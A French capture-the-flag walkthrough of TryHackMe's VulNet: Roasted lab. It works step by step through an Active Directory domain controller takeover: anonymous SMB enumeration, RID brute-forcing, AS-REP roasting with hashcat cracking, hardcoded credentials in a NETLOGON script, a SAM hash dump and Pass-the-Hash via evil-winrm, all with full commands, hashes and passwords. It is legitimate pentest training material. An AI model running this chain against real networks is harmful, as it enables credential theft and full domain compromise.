# Walkthrough : Machine VulNet: Roasted (TryHackMe)
Ce compte rendu décrit pas à pas l'attaque contre un Domain Controller Active Directory vulnérable (sur Windows Server 2019 build 17763). On commence par une reconnaissance passive, on exploite des faiblesses Kerberos comme l'ASREProasting pour obtenir des credentials valides, puis on escalade vers un dump de hashes locaux (SAM) et enfin une prise de contrôle totale via Pass-the-Hash. L'objectif est de récupérer les flags user et root en comprenant chaque technique utilisée.

## Étape 1 : Reconnaissance & Énumération 
D'abord, on scanne la cible pour identifier les services. Les ports ouverts (53/DNS, 88/Kerberos, 389/LDAP, 445/SMB) indiquent un DC Windows Server 2019 exposant des protocoles AD standards.
```bash
nmap -Pn -sT -A -T4 -p- 10.81.133.170
rustscan -a 10.81.133.170 --ulimit 7000 
```

Résultat :
```bash
PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 126
88/tcp    open  kerberos-sec   syn-ack ttl 126
135/tcp   open  msrpc          syn-ack ttl 126
139/tcp   open  netbios-ssn    syn-ack ttl 126
389/tcp   open  ldap           syn-ack ttl 126
445/tcp   open  microsoft-ds   syn-ack ttl 126
464/tcp   open  kpasswd5       syn-ack ttl 126
593/tcp   open  http-rpc-epmap syn-ack ttl 126
3268/tcp  open  globalcatLDAP  syn-ack ttl 126
5985/tcp  open  wsman          syn-ack ttl 126
9389/tcp  open  adws           syn-ack ttl 126
49666/tcp open  unknown        syn-ack ttl 126
49667/tcp open  unknown        syn-ack ttl 126
49671/tcp open  unknown        syn-ack ttl 126
49672/tcp open  unknown        syn-ack ttl 126
49677/tcp open  unknown        syn-ack ttl 126
49705/tcp open  unknown        syn-ack ttl 126
```

Netexec sur SMB révèle le domaine vulnnet-rst.local et confirme l'accès anonyme guest, listant des partages comme VulnNet-Business-Anonymous.
On commence avec netexec et le module smb :
```bash
┌──(root㉿kali)-[~]
└─# nxc smb 10.81.133.170
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:None) (Null Auth:True)
```

On liste les partages SMB avec le user par défaut guest :
```bash
┌──(root㉿kali)-[~]
└─# nxc smb 10.81.133.170 -u guest -p '' --shares 
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\guest: 
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  [*] Enumerated shares
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  ADMIN$                          Remote Admin
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  C$                              Default share
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  NETLOGON                        Logon server share 
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  SYSVOL                          Logon server share 
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.81.133.170   445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```


## Étape 2 : Exploitation des Partages SMB Anonymes
On regarde les partages SMB anonymes avec smbclient pour extraire les fichiers. Ces docs marketing leakent des noms d'utilisateurs potentiels, Alexa Whitehat (a-whitehat), Tony Skid (t-skid), etc.

On va aller regarder les partages VulnNet-Business-Anonymous READ et VulnNet-Enterprise-Anonymous READ.
```bash
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.81.133.170\\VulnNet-Business-Anonymous -U \\\\\vulnnet-rst.local\\guest --no-pass
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Mar 13 03:46:40 2021
  ..                                  D        0  Sat Mar 13 03:46:40 2021
  Business-Manager.txt                A      758  Fri Mar 12 02:24:34 2021
  Business-Sections.txt               A      654  Fri Mar 12 02:24:34 2021
  Business-Tracking.txt               A      471  Fri Mar 12 02:24:34 2021

                8771839 blocks of size 4096. 4495550 blocks available
smb: \> get Business-Manager.txt
getting file \Business-Manager.txt of size 758 as Business-Manager.txt (6,1 KiloBytes/sec) (average 6,1 KiloBytes/sec)
smb: \> get Business-Sections.txt
getting file \Business-Sections.txt of size 654 as Business-Sections.txt (4,1 KiloBytes/sec) (average 5,0 KiloBytes/sec)
smb: \> get Business-Tracking.txt
getting file \Business-Tracking.txt of size 471 as Business-Tracking.txt (3,0 KiloBytes/sec) (average 4,3 KiloBytes/sec)
smb: \> exit
```

On regarde les 3 fichiers que l'on a télécharger : 
```bash
┌──(root㉿kali)-[~]
└─# cat Business-Manager.txt
VULNNET BUSINESS
~~~~~~~~~~~~~~~~~~~

Alexa Whitehat is our core business manager. All business-related offers, campaigns, and advertisements should be directed to her. 
We understand that when you’ve got questions, especially when you’re on a tight proposal deadline, you NEED answers. 
Our customer happiness specialists are at the ready, armed with friendly, helpful, timely support by email or online messaging.
We’re here to help, regardless of which you plan you’re on or if you’re just taking us for a test drive.
Our company looks forward to all of the business proposals, we will do our best to evaluate all of your offers properly. 
To contact our core business manager call this number: 1337 0000 7331

~VulnNet Entertainment
~TryHackMe
                                                                                                                                                                                                                                                                                                   
┌──(root㉿kali)-[~]
└─# cat Business-Sections.txt
VULNNET BUSINESS
~~~~~~~~~~~~~~~~~~~

Jack Goldenhand is the person you should reach to for any business unrelated proposals.
Managing proposals is a breeze with VulnNet. We save all your case studies, fees, images and team bios all in one central library.
Tag them, search them and drop them into your layout. Proposals just got... dare we say... fun?
No more emailing big PDFs, printing and shipping proposals or faxing back signatures (ugh).
Your client gets a branded, interactive proposal they can sign off electronically. No need for extra software or logins.
Oh, and we tell you as soon as your client opens it.

~VulnNet Entertainment
~TryHackMe
                                                                                                                                                                                                                                                                                                   
┌──(root㉿kali)-[~]
└─# cat Business-Tracking.txt
VULNNET TRACKING
~~~~~~~~~~~~~~~~~~

Keep a pulse on your sales pipeline of your agency. We let you know your close rate,
which sections of your proposals get viewed and for how long,
and all kinds of insight into what goes into your most successful proposals so you can sell smarter.
We keep track of all necessary activities and reach back to you with newly gathered data to discuss the outcome. 
You won't miss anything ever again. 

~VulnNet Entertainment
~TryHackMe
```


On récupère également les fichiers de l'autres partage : 
```bash
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.81.133.170\\VulnNet-Enterprise-Anonymous -U \\\\\vulnnet-rst.local\\guest --no-pass
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Mar 13 03:46:40 2021
  ..                                  D        0  Sat Mar 13 03:46:40 2021
  Enterprise-Operations.txt           A      467  Fri Mar 12 02:24:34 2021
  Enterprise-Safety.txt               A      503  Fri Mar 12 02:24:34 2021
  Enterprise-Sync.txt                 A      496  Fri Mar 12 02:24:34 2021

                8771839 blocks of size 4096. 4501227 blocks available
smb: \> get Enterprise-Operations.txt
getting file \Enterprise-Operations.txt of size 467 as Enterprise-Operations.txt (2,6 KiloBytes/sec) (average 2,6 KiloBytes/sec)
smb: \> get Enterprise-Safety.txt
getting file \Enterprise-Safety.txt of size 503 as Enterprise-Safety.txt (3,2 KiloBytes/sec) (average 2,9 KiloBytes/sec)
smb: \> get Enterprise-Sync.txt
getting file \Enterprise-Sync.txt of size 496 as Enterprise-Sync.txt (3,3 KiloBytes/sec) (average 3,0 KiloBytes/sec)
smb: \> exit
```

On regarde le contenue :
```bash
┌──(root㉿kali)-[~]
└─# cat Enterprise-Operations.txt
VULNNET OPERATIONS
~~~~~~~~~~~~~~~~~~~~

We bring predictability and consistency to your process. Making it repetitive doesn’t make it boring. 
Set the direction, define roles, and rely on automation to keep reps focused and make onboarding a breeze.
Don't wait for an opportunity to knock - build the door. Contact us right now.
VulnNet Entertainment is fully commited to growth, security and improvement.
Make a right decision!

~VulnNet Entertainment
~TryHackMe
                                                                                                                                                                                                                                                                                                   
┌──(root㉿kali)-[~]
└─# cat Enterprise-Safety.txt    
VULNNET SAFETY
~~~~~~~~~~~~~~~~

Tony Skid is a core security manager and takes care of internal infrastructure.
We keep your data safe and private. When it comes to protecting your private information...
we’ve got it locked down tighter than Alcatraz. 
We partner with TryHackMe, use 128-bit SSL encryption, and create daily backups. 
And we never, EVER disclose any data to third-parties without your permission. 
Rest easy, nothing’s getting out of here alive.

~VulnNet Entertainment
~TryHackMe
                                                                                                                                                                                                                                                                                                   
┌──(root㉿kali)-[~]
└─# cat Enterprise-Sync.txt  
VULNNET SYNC
~~~~~~~~~~~~~~

Johnny Leet keeps the whole infrastructure up to date and helps you sync all of your apps.
Proposals are just one part of your agency sales process. We tie together your other software, so you can import contacts from your CRM,
auto create deals and generate invoices in your accounting software. We are regularly adding new integrations.
Say no more to desync problems.
To contact our sync manager call this number: 7331 0000 1337

~VulnNet Entertainment
~TryHackMe
```

On se constitue une liste de noms : 
```txt
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```

On liste les users via RID brute-force (500-1000 typique pour AD) avec Netexec, validant a-whitehat, t-skid, j-goldenhand, j-leet.
Enumération des users : 
```bash
┌──(root㉿kali)-[~]
└─# nxc smb 10.81.133.170 -u guest -p '' --rid-brute
```


On a des users :
```
VULNNET-RST\a-whitehat
VULNNET-RST\t-skid
VULNNET-RST\j-goldenhand
VULNNET-RST\j-leet
```

## Étape 3 : ASREProasting
L'ASREProasting exploite les comptes AD avec le flag "Do not require Kerberos preauthentication" (DONT_REQ_PREAUTH). Au lieu de valider le password, le DC renvoie un TGT chiffré avec le hash NTLM du user, qu'on crack offline.
On setup BloodHound pour Netexec LDAP, puis on cible t-skid

On va procéder a l'énumération du protocol ldap pour ce faire l'outil netexec dépend de bloodhound, il faut donc l'installer :
```
apt update && sudo apt install bloodhound
apt install python3-venv && python3 -m venv ~/bh-env
source ~/bh-env/bin/activate
pip install bloodhound
deactivate
ls ~/bh-env/lib/
echo 'export PYTHONPATH="$HOME/bh-env/lib/python3.13/site-packages:$PYTHONPATH"' >> ~/.zshrc && source ~/.zshrc
echo $PYTHONPATH && python3 -c "import bloodhound; print('OK')"
nxc ldap 10.81.133.170 -u guest -p ''
```

Nous allons chercher les utilisateurs qui n'ont pas besoin de pré-authentification Kereros :
https://www.netexec.wiki/ldap-protocol/asreproast

```bash
┌──(root㉿kali)-[~]
└─# nxc ldap 10.81.133.170 -u t-skid -p '' --asreproast output.txt
LDAP        10.81.133.170   389    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.81.133.170   389    WIN-2BO8M1OE1M1  $krb5asrep$23$t-skid@VULNNET-RST.LOCAL:e84e4602d149eab241a4921a8a527273$340c64411425d8496f74f82b5807464cf7f4f48008bdca943e7ac7dec020ad7a468ea0a4f66e8dd3efb71a6df533fa4345f4764adbea64384854e39fd3b2bbfc1fee1b69f9e5e70abcf3fb4fb44b442fcf25a865e3615a92eb65067029c86947b8ec179590db1b8e25f8ac10b5cbb3cd0afdbdef763397d5ca7df3ec5958e7c6f968d67edb8eededda75830717a565967b07782b60f442a1e25e19eff4a55bee3dce38997510f84446b382d169bb8055696b2cf0ee7ca2258787ec8fed6a2edba7e0fa41f74092b755ab2bac48be8e75fceaf73ee8c2723183b1ae2985dd06fe6106908d4f2a2b28f6f6ac273523aa7b46e3d61edb9c
```


On a récupérer le hash du mot de passe de l'utilisateur t-skid, nous allons le déchiffrer  (on obtient le mot de passe extrait de son TGT):

```bash
cp output.txt asrep.hash
# Décompressez rockyou
gunzip /usr/share/wordlists/rockyou.txt.gz
# Crackez => Hashcat (mode 18200) cracke le hash avec rockyou.txt
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
# Afficher le mot de passe cracked
hashcat -m 18200 asrep.hash --show
# mot de passe de t-skid => tj072889*
```

## Étape 4 : Accès aux Partages Domain et Credentials
Avec t-skid:tj072889*, on accède aux partages SYSVOL/NETLOGON (standards AD pour GPO/scripts). On y trouve ResetPassword.vbs, un script VBS avec des credentials hardcoded en clair : a-whitehat:bNdKVkjv3RR9ht. Mauvaise pratique courante en environnement de production mal sécurisé.

On va regarder les partages smb avec le compte de t-skid :
```bash
nxc smb 10.81.133.170 -u t-skid -p 'tj072889*' --shares
```

On peut lire les partages NETLOGON et SYSVOL :
```
smbclient //10.82.144.217/SYSVOL -U "VULNNET-RST.LOCAL/t-skid"
smbclient //10.82.144.217/NETLOGON -U "VULNNET-RST.LOCAL/t-skid" 
```

J'ai réussi a obtenir un script VisualBasic  de reset de password  sur NETLOGON :
```
┌──(root㉿kali)-[~]
└─# smbclient //10.82.144.217/NETLOGON -U "VULNNET-RST.LOCAL/t-skid"
Password for [VULNNET-RST.LOCAL\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

                8540159 blocks of size 4096. 4295362 blocks available
smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (13,1 KiloBytes/sec) (average 13,1 KiloBytes/sec)
smb: \> exit
```


 Dans le fichier que l'on a récupérer on a le user/password :
 
```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```
 

On tente d'exploiter le protocole smb avec ce nouveau compte :
```bash
nxc smb 10.81.159.175 -u a-whitehat -p 'bNdKVkjv3RR9ht' --shares
```


## Étape 5 : Dump SAM et Pass-the-Hash
a-whitehat possède des droits admin sur C$ et ADMIN$. Netexec dump les hashes SAM, incluant l'admin du domain Administrator Evil-WinRM utilise Pass-the-Hash pour obtenir shell SYSTEM avec droits administrateur (Domain Admin). 

a-whitehat a des droits admin locaux (accès sur C$ et ADMIN$). Netexec --sam dump la base SAM locale du DC (hash NTLM/LM v1 des users locaux comme Administrator). Ce n'est pas DCSync (qui nécessite des droits de réplication AD comme Domain Admin et dump NTDS.dit hash de tout le domaine via LDAP/RPC). Ici, c'est un dump SAM classique, suffisant pour PTH (Pass The Hash) sur ce DC.

On va dumper les mots de passe car ce compte a des droits read/write sur le C:/ et Admin :
```bash
nxc smb 10.81.159.175 -u a-whitehat -p 'bNdKVkjv3RR9ht' --sam
```

Effectivement on récupère bien plusieurs hash a cracker :
```bash
┌──(root㉿kali)-[~]
└─# nxc smb 10.82.144.217 -u a-whitehat -p 'bNdKVkjv3RR9ht' --sam
SMB         10.82.144.217   445    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.82.144.217   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
SMB         10.82.144.217   445    WIN-2BO8M1OE1M1  [*] Dumping SAM hashes
SMB         10.82.144.217   445    WIN-2BO8M1OE1M1  Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
SMB         10.82.144.217   445    WIN-2BO8M1OE1M1  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.82.144.217   445    WIN-2BO8M1OE1M1  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[22:09:16] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                 regsecrets.py:436
SMB         10.82.144.217   445    WIN-2BO8M1OE1M1  [+] Added 3 SAM hashes to the database
```


## Étape 6 : Pass-the-Hash et récupération des Flags

Pass-the-Hash (PTH) réutilise le hash NTLMv1 directement pour s'authentifier sans cracker le password. Via Evil-WinRM on arrive a se connecter en tant qu'Administrator (SYSTEM) en lui fournissant le hash de Administrator (donc pas besoin de cracker son hash):

On applique la technique Pass-The-Hash :
```bash
evil-winrm -i 10.81.159.175 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d
```


Puis on récupère les flags user.txt et system.txt :
```powershell
cat C:\Users\enterprise-core-vn\Desktop\user.txt
cat C:\Users\Administrator\Desktop\system.txt
```


Bravo !




